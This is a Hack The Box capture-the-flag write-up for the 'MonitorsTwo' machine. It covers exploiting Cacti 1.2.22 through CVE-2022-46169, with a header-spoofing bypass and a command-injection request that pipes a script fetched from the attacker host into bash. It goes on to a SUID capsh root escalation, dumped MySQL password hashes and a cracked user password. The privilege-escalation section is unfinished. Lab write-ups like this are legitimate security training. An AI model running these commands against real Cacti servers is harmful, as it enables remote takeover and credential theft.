









<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.211 monitorstwo.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is running "Cacti" Version 1.2.22.



There is a Unauthenticated Remote Code Execution vulnerability discovered in Cacti version <=1.2.22 -> https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/

# Foothold

## Cacti Unauthenticated RCE CVE-2022-46169

There is a Unauthenticated Remote Code Execution vulnerability discovered in Cacti version <=1.2.22 -> https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/

And there's also a MSF module (`exploit/linux/http/cacti_unauthenticated_cmd_injection`) for this exploit -> https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/



Got meterpreter shell in the docker container.


* There are 2 bugs are leveraged to achieve the full RCE
  1. **Authentication Bypass** -> `X-Forwarded-For: 127.0.0.1`
    * The script `/remote_agent.php` is supposed to be accessed by authorized clients only.
    * From [the blog post](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/) "Authentication Bypass" section, we can understand that we can bypass this check using `X-Forwarded-For` header.

  2. **Command Injection** -> `action=polldata&local_data_ids%5b%5d=6&host_id=1&poller_id=;sleep+10`
    * From [the blog post](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/) "Command Injection Vulnerability", We can trigger `proc_open()` php function with `poller_id` parameter value using `/remote_agent.php` with `polldata` action when an item with the `POLLER_ACTION_SCRIPT_PHP` action exists and blog stated that this action is added by some predefined templates like "`Device - Uptime`" or "`Device - Polling Time`" and we can find one of these predefined templates with there corresponding id using `local_data_ids` parameter.


**Manually Exploit**

* Save reverse shell in index.html file.

Make request to `/remote_agent.php` with the payload -> `;curl+10.10.14.14|bash`
```bash
curl -H $'X-Forwarded-For: 127.0.0.1' $'http://10.129.215.103/remote_agent.php?action=polldata&local_data_ids[]=6&host_id=1&poller_id=;curl+10.10.14.14|bash'
```



## Lateral movement

* There is `entrypoint.sh` in root (`/`) which contains mysql login details.

There is also a interesting SUID binary
```bash
(remote) www-data@50bca5e748b0:/$ find / -perm /4000 2>/dev/null
... [snip] ...

/sbin/capsh

... [snip] ...
```

Using GTFObins we can get root in the docker -> https://gtfobins.github.io/gtfobins/capsh/#suid
```bash
/sbin/capsh --gid=0 --uid=0 --

... [snip] ...

(remote) www-data@50bca5e748b0:/$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@50bca5e748b0:/# 

```

Found some password hashes from mysql database
```bash
mysql --host=db --user=root --password=root

... [snip] ...

MySQL [cacti]> SELECT username,password,email_address FROM cacti.user_auth;
+----------+--------------------------------------------------------------+------------------------+
| username | password                                                     | email_address          |
+----------+--------------------------------------------------------------+------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC | admin@monitorstwo.htb  |
| guest    | 43e9a4ab75570f5b                                             |                        |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C | marcus@monitorstwo.htb |
+----------+--------------------------------------------------------------+------------------------+
3 rows in set (0.001 sec)
```

<!--
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
-->

"marcus" hash cracked using john.
```bash
❯ john hashes --show
marcus:funkymonkey

1 password hash cracked, 1 left
```

* We can use these creds in ssh login.

# Privesc

## Docker overlay FS

There is a mount in the host that looks interesting



ChatGPT explains, what it is...



And we can access container file from host using it





And so we can also execute container binaries in the host machine.



